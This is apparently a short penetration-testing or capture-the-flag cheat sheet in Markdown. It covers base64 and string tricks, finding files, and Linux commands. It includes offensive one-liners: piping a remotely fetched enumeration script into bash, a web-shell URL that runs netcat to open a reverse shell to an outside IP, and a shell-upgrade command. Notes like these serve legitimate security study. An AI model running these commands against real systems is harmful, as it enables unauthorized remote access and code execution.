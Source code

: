 # Character and Strings  

- `man ascii`
- set env variable `export VAR=str`
- var echo `echo ${VAR}`
- var echo `echo ${VAR:13:1}` starting at 13th char show 1 
- `base64 -d file.bak > unknown` decode base64 to file 
- `file unkown` get file type 
- `echo -n text | base64 -d` 
- python number to hex to ascii run in py2 interpreter 
	- `py = 2345253252352`
	- `str(hex(py))`
	- `str(hex(py)[2:-1]).decode('hex')`
- Conver to windows b64 to eliminate bad characters and put on clipboard `cat file.ps1 | inconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`

# Find Flags and Permissions 
`find /home -type f -print f "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null | column -t` 

# Exploit DB Exploits 
/usr/share/exploitdb 

# Linux

### Useful Commands
- `base64`
- `file` 
- `unzip`
- `sudo -u scriptmanager bash` sudo bash command as scriptmanager user 
- `curl 5.5.5.5:8000/linenum.sh | bash` curl file to bash 
- `md5sum filename` 


### Kill Process by port on Linux 
This `fuser 8080/tcp` will print you PID of process bound on that port.  
And this `fuser -k 8080/tcp` will kill that process


https://gallery.technet.microsoft.com/scriptcenter/Powershell-Webserver-74dcf466

# Shells 
### Reverse Shell from web shell
`https://192.168.200.44/uploads/shell.php?cmd=nc%20-nv%20192.168.119.200%204444%20-e%20/bin/bash`

### Upgrade to interactive Shell
`python -c 'import pty; pty.spawn("/bin/bash")'`
